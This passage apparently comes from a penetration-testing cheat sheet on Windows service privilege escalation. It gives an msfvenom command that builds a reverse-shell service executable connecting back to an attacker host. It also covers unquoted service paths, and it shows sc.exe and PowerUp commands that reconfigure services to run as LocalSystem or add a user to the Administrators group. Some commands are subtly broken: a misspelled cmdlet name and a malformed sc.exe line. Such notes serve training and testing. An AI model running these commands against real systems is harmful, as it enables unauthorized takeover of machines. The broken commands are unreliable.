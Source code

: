 ## 3. Services

```bash
# Generate rev-shell service executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<port> -f exe-service -o my-service.exe
```

### 3.1. Executable permissions
The executable associated with a service might have insecure permissions. The attacker modifing or replacing the executable can gain the privileges of the service's account.

```powershell
icacls <executable-path>                    # Show DACL of the executable
```

### 3.2. Unquoted paths
If the service's executable points to an unquoted path with spaces, SCM tries to execute firt binary which is the first part of the unqoted path. This SCM feature is basically disgusting but it works like that. It allows an attacker to put malicious service binary in the "wrong" path and run it before a legit one will be executed.

Example:

```text
Path        :   C:\MyPrograms\Disk Sorter.exe
Executed 1st:   C:\MyPrograms\Disk.exe
Executed 2nd:   C:\MyPrograms\Disk Sorter.exe
```

```powershell
# PowerUp module
Get-ServiceUnqoated -Verbose                # List unquoted paths           
```

> **NOTE**: To drop an executable in the root `C:\` directory you need to actually fhave admin privileges so the unquoted `C:\Program Files (x86)\...` is basically useless.

### 3.3. Modifiable Service
The service ACL might allow to reconfigure service settings. This allows an attacker to point a malicious executable to the service and even change the account which the executable is run with.

> **NOTE**: By changing service binary path to a _cmd_ command, it is possible to execute shell command after service restart.

To check a service ACL the [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) tool might be necessary.

```powershell
accesschk64.exe -qlc <svc-name>             # Check the service ACL

# Reconfigure service: run :exe-path with Local SYSTEM account
sc.exe config <svc-name binPath= "<exe-path" obj= LocalSystem

# PowerUp module
Get-ModifiableService -Verbose              # List modifiable services

# PowerUp - abuse :service and add :user to local Administrators group
Invoke-ServiceAbuse -Name <service> -UserName <user>
```
